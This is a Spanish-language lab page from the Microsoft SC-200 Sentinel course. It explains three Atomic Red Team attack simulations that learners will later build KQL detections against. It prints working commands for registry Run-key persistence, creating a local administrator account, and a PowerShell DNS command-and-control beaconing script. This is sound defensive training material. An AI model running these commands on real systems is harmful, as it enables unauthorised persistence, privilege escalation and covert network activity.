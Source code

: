 ```yaml
---
lab:
  title: 'Ejercicio 5: descripción del modelado de detección'
  module: Learning Path 7 - Create detections and perform investigations using Microsoft Sentinel
---
```


# Ruta de aprendizaje 7 - Laboratorio 1 - Ejercicio 5: descripción del modelado de detección

![Introducción al laboratorio.](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex5.png)
### Tarea 1: comprender los ataques

>**Importante: no realizarás ninguna acción en este ejercicio.**  Estas instrucciones son solo una explicación de los ataques que realizarás en el ejercicio siguiente. Lee detenidamente esta página.

Los patrones de ataque se basan en un proyecto de código abierto: https://github.com/redcanaryco/atomic-red-team


#### Ataque 1: persistencia con la agregación de clave del registro

Los atacantes agregarán un programa en la clave Ejecutar registro. De esta manera, se obtiene persistencia haciendo que el programa se ejecute cada vez que el usuario inicia sesión.

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### Ataque 2: agregación de usuarios y privilegio elevado

Los atacantes agregarán nuevos usuarios y elevarán el nuevo usuario al grupo de administradores. Esto permite al atacante iniciar sesión con una cuenta diferente con privilegios.

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### Ataque 3: DNS / C2 

El atacante enviará un gran volumen de consultas DNS a un servidor de comando y control (C2). La intención es desencadenar la detección basada en umbral en el número de consultas DNS desde un único sistema de origen o en un único dominio de destino.

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```


### Tarea 2: entender el modelado de detección

El ciclo de configuración de detección de ataques usado en este laboratorio representa todos los orígenes de datos, aunque solo se centre en dos orígenes de datos específicos.

Para crear una detección, empieza por crear primero una instrucción KQL. Como atacarás a un host, tendrás datos representativos para empezar a compilar la instrucción KQL.


Una vez que tengas la instrucción KQL, crea la regla analítica.

Una vez que la regla se desencadena y crea las alertas e incidentes, investiga para decidir si proporcionas campos que ayuden a los analistas de operaciones de seguridad en su investigación.

Después, realizarás otros cambios en la regla de análisis.

>**Nota:** algunas alertas se desencadenarán en un período más corto solo a los fines de este laboratorio.

## Continúa con el ejercicio 6
